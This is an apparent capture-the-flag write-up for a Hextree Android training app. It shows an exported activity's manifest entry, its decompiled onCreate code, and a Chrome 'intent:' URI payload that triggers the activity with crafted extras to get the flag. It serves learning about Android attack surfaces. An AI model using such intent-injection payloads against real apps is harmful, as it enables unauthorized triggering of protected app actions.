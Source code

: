 ### Flag 15
#### Code analysis
```xml
	 <activity
            android:name="io.hextree.attacksurface.activities.Flag15Activity"
            android:exported="true">
            <intent-filter>
                <action android:name="io.hextree.action.GIVE_FLAG"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
            </intent-filter>
    </activity>
```

The target `<intent-filter>` does not contain a host or path filter?

```java
 public void onCreate(Bundle bundle) {

        Intent intent = getIntent();
        if (intent == null) {
            return;
        }
        String action = intent.getAction();
        if (action == null) {
            Intent intent2 = new Intent("android.intent.action.VIEW");
            intent2.setData(Uri.parse("https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-link-builder?href=" + Uri.encode("intent:#Intent;...")));
            startActivity(intent2);
            return;
        }
        if (isDeeplink(intent) && action.equals("io.hextree.action.GIVE_FLAG")) {
            Bundle extras = intent.getExtras();
            if (extras == null) {
                finish();
            }
            String string = extras.getString("action", "open");
            if (extras.getBoolean("flag", false) && string.equals("flag")) {
                this.f.addTag(Boolean.valueOf(extras.getBoolean("flag", false)));
                this.f.addTag(string);
                success(this);
            } else if (string.equals("open")) {
                Toast.makeText(this, "Website: " + extras.getString("message", "open"), 1).show();
            }
        }
```

#### Solution

The Chrome `intent:` scheme solves this by allowing a site to create explicit intents so we can create our own and send it . using hex site  and running it on our phone
```txt
intent:#Intent;package=io.hextree.attacksurface;action=io.hextree.action.GIVE_FLAG;S.action=flag;S.open=flag;B.flag=true;end;
```
